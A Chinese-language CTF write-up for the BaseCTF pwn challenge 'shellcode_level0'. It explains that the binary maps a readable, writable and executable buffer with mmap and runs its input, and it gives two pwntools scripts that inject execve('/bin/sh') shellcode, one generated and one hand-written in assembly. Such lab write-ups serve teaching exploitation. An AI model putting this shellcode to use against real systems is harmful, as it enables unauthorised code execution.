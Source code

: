 # Basectf pwn方向“shellcode_level0”

by Maple

题目的提示很明显，就是shellcode，反编译发现直接通过mmap函数输入,权限为7，所以直接注入shellcode就行

```python
from pwn import *
p = process('./shellcode_level0')
p.send(asm(shellcraft.sh()))
p.interactive()
```

## asm(shellcraft.sh())

`shellcraft.sh()`是一个生成shellcode的函数;`asm()`函数将shellcode汇编成机器码。

## mmap()

`mmap()`的函数原型是`void *mmap(void *addr, size_t length, int prot, int flags, int fd, off_t offset);`

- **void addr** 指定内存映射区的起始地址。通常设置为NULL,让系统自动选择合适的地址。如果指定地址，需要确保地址对齐，并且有足够的空间
- **size_t length**:映射区的长度，以字节为单位
- **prot**:指定内存区域的保护属性
  - PROT_READ：区域可读(0x1)
  - PROT_WRITE：区域可写(0x2)
  - PROT_EXEC：区域可执行(0x4)
  - PROT_NONE；区域不可访问
- **flags**:指定映射对象的类型和可见性
  - MAP_PRIVATE：创建一个写入时复制（copy-on-write）的私有映射。对映射区域的修改不会反映到原始文件中。（0x02）
  - MAP_SHARED：创建一个共享映射。对映射区域的修改会反映到原始文件中。(0X01)
  - MAP_ANONYMOUS：创建一个匿名映射，不与任何文件关联（0x20）
- **fd**: 文件描述符，用于指定要映射的文件。如果使用MAP_ANONYMOUS，则此参数通常设置为-1
- **offset**：文件中的偏移量，指定从文件的哪个位置开始映射。通常需要是页大小的整数倍

这道题的mmap函数调用为`buf = mmap(0LL, 0x1000uLL, 7, 34, -1, 0LL)`

让系统自主选择地址

映射区长度为0x1000uLL（4096字节）

保护属性为7（PROT_READ | PROT_WRITE | PROT_EXEC）：可读可写可执行

flags为34（MAP_PRIVATE | MAP_ANONYMOUS）：创建一个私有的匿名映射

## 手写shellcode

```python
from pwn import *
p = process('./shellcode_level0')

shellcode = asm('''
    mov rax,0x68732f6e69622f
    push rax
    push rsp
    pop rdi
    push 0x3b
    pop rax
    xor esi, esi
    xor edx, edx
    syscall
''')

p.send(shellcode)
p.interactive()
```

## 这里为什么是send而不是sendline

其实写sendline也没问题，不会影响这个脚本的运行,如果深究的话，我认为是这些原因

1. 发送的是shellcode：`asm(shellcraft.sh())`生成的是机器码（二进制数据），而不是文本命令。shellcode通常不需要换行符来触发执行，因为它本身就是一段可执行的机器指令
1. 精确控制数据：使用send可以确保发送的数据完全是你生成的shellcode，没有任何额外的字符（如换行符）被添加。这可以确保shellcode正确执行。

*注意，有些题目写send或sendline得到的结果是完全不同的，但后面遇到再说吧*.